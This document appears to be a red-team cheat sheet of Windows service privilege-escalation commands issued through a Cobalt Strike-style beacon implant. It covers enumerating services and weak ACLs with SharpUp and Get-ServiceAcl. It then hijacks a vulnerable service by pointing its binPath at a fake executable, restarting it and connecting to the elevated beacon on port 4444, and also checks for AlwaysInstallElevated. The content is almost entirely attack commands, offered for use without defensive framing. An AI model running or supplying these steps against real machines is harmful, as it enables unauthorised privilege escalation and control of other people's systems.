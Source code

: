 ###### <font style="color:#00b3ff">List Windows services</font> 
```
-> C:\>sc query
-> PS C:\> Get-Service | fl
```

###### <font style="color:#00b3ff">Get list of services and their paths</font> 
```
beacon> run wmic service get name, pathname
```

###### <font style="color:#00b3ff">Check permissions with PowerShell of a directory</font> 
```
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services" | fl
```

###### <font style="color:#00b3ff">Find modifiable services</font> 
```
-> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
-> beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
-> beacon> powershell Get-ServiceAcl -Name Vuln-Service-2 | select -expandproperty Access
```

###### <font style="color:#00b3ff">Change service binary path</font> 
```
-> beacon> run sc qc Vuln-Service-2
-> beacon> run sc config Vuln-Service-2 binPath= C:\Temp\fake-service.exe
-> beacon> run sc qc Vuln-Service-2
-> beacon> run sc query Vuln-Service-2
-> beacon> run sc stop Vuln-Service-2
-> beacon> run sc start Vuln-Service-2
-> beacon> connect localhost 4444

```

###### <font style="color:#00b3ff">Resole Windows error codes (example 32)</font> 
```
C:\>net helpmsg 32
```

###### <font style="color:#00b3ff">Check binary with weak permissions (can be overwritten)</font> 
```
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services\Service 3.exe" | fl
```

###### <font style="color:#00b3ff">Check for Always Install Elevated priv esc</font> 
```
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
```
